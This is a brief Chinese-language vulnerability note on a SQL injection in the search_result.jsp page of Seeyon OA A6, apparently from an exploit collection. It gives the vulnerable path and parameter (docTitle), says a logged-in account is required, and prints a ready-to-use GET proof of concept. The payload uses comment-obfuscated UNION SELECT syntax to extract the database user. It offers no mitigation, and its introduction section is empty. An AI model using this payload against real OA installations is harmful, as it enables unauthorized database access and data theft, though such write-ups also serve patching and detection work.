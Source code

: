 # 致远OA A6 search_result.jsp sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

致远OA A6

### 三、复现过程

漏洞位置:


```
/yyoa/oaSearch/search_result.jsp
```

漏洞详情:


```bash
版本：A6
注意：需登录账户
注入发生在search_result.jsp文件中的docTitle参数
```

请求方式:

Get

POC:


```bash
http://url/yyoa/oaSearch/search_result.jsp?docType=协同信息&docTitle=1'and/**/1=2/**/ union/**/all/**/select/**/user(),2,3,4,5%23&goal=1&perId=0&startTime=&endTime=&keyword=&searchArea=notArc
```